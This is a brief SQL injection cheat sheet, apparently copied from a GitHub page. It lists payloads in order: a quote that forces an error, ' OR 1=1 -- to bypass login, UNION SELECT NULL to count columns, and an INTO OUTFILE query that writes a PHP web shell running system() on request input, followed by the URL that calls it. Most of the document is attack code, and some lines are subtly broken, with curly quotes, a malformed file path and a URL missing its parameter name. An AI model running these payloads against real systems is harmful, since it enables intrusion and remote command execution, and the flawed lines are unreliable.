 # SQL Injection

* Cause Error on the Web Application by input quote '

```
SELECT * FROM users WHERE username = ''' AND password = ''

```





* Data Exfiltration by input ' OR 1=1 --



```
SELECT * FROM users WHERE username = '' OR 1=1--' AND password = ''

```

* Gaining Shell

First check the number of column with NULL or 1



```
SELECT * FROM users WHERE username = 'a' UNION SELECT NULL, NULL; --' AND password = ''
```

Use the INTO FILE to create a php file in the web server

```
SELECT * FROM users WHERE username = 'a' 
UNION SELECT “<? system($_REQUEST[‘cmd’]); ?>”, NULL; INTO OUTFILE 'var/www/cmd.php'--' AND password = ''
```

Access the web page 



```
http://yourIPaddress/cmd.php?=[command]
```










